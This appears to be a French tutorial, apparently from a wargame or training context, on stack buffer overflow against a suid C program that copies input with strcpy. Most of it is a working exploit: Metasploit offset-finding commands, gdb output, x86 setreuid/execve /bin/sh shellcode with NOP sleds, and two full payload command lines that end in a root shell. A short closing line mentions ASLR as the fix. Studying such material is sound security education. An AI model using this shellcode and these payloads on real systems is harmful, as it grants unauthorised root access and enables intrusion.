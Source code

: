 # Le Stack Overflow

## I. Introduction
Le Stack Overflow consiste à utiliser une faille applicative pour écrire en mémoire et détourner le flow du programme. Nous allons par exemple tenter ici de faire executer un shell root à un programme suid lambda.

## II. Pré-requis
* Un programme suid
* Un code permettant le buffer overflow

Soit le programme `vuln` suivant :
```{r, engine='C'}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void copy(char *arg)
{
	char msg[256];
	strcpy(msg,arg);
    printf("Votre argument est : %s\n",msg);
}

int main(int argc, char **argv)
{
	copy(argv[1]);
	return 0;
}
```

## III. La faille
Ce programme permet le Stack Overflow puisque l'input utilisateur n'est controlé à aucun moment et que `strcpy()` se contente de copier bêtement l'input dans la variable `msg`. Ainsi on peut écrire dans la mémoire.  
L'idée va être d'écraser l'adresse de retour du programme vulnérable par l'adresse de notre shellcode.

## IV. Exploitation

### On détermine l'offset de l'adresse de retour
Pour cela, on génère on suite de caractère unique sur kali :
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
On execute notre programme vulnérable sous le debugger `gdb`
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9'")
Votre argument est : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0x6a413969
0x6a413969 in ?? ()
```
Kali va maintenant nous dire à l'octet près là où nous pouvons réécrire l'adresse de retour
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb $(ruby -e 'print "\x6a\x41\x39\x69".reverse')
[*] Exact match at offset 268
```
Sans cette technique, il aurait fallu procéder par dicotomie jusqu'à tomber sur le bon offset.

### Détournement du programme
Plusieurs solutions existent ici, nous verrons les deux plus simples : exploitation à l'aide de l'environnement, et exploitation directe (ce sont des termes maison hein :p)

#### 1. A l'aide de l'environnement
Nous commençons par stocker notre shellcode précédé d'une floppé de NOP afin de se laisser une marge :

```{r, engine='bash'}
aas@ubuntu:~$ export SC=$(python -c "print '\x90'*100+'\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80'")
```

Nous récupérons l'adresse de notre variable SC grâce au programme suivant :

```{r, engine='bash'}
#include <stdio.h>
aas@ubuntu:~$ cat get_env
void main()
{
        printf("ad: 0x%lx\n", getenv("SC"));
}
aas@ubuntu:~$ ./get_env
ad: 0xbffffed3
```
Nous devons donc écraser l'adresse de retour avec l'adresse de notre variable SC : 0xbffffed3
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*268 + '\xd3\xfe\xff\xbf'")
# whoami
root
```

#### 2. Par exploitation directe
Lorsque le buffer est assez grand, nous pouvons tout faire rentrer et l'utilisation de l'environnement n'est pas nécéssaire.  
Le principe est toujours d'écraser l'adresse de retour pour la faire pointer dans nos NOP. Il faut donc récupérer une des adresses pointant sur nos NOP.
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + 'AAAA'")
0xbffffec0:	0x2d465455	0x494c0038	0x3d53454e	0x53003133
0xbffffed0:	0x90903d43	0x90909090	0x90909090	0x90909090
0xbffffee0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffef0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff00:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff10:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff20:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff30:	0x90909090	0x316a9090	0x80cd9958	0xc189c389
0xbfffff40:	0xcd58466a	0x520bb080	0x732f6e68	0x2f2f6868
0xbfffff50:	0xe3896962	0x80cdd189	0x53494800	0x4e4f4354
0xbfffff60:	0x4c4f5254	0x6e67693d	0x6265726f	0x0068746f
0xbfffff70:	0x454d4f48	0x61772f3d	0x6d616772	0x656d2f65
```
On voit nos NOP (\x90). Il suffit de choisir une adresse d'un NOP au milieu de la floppé pour se laisser de la marge. Disons l'adresse `0xbfffff10`. Il nous suffit maintenant de remplacer les AAAA par cette adresse et le tour est joué.
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + '\x10\xff\xff\xbf'")
# whoami
root
```

## V. Sécurisation
Aujourd'hui, les kernels sont patchés contre ce problème. L'ASLR palie à ce problème.
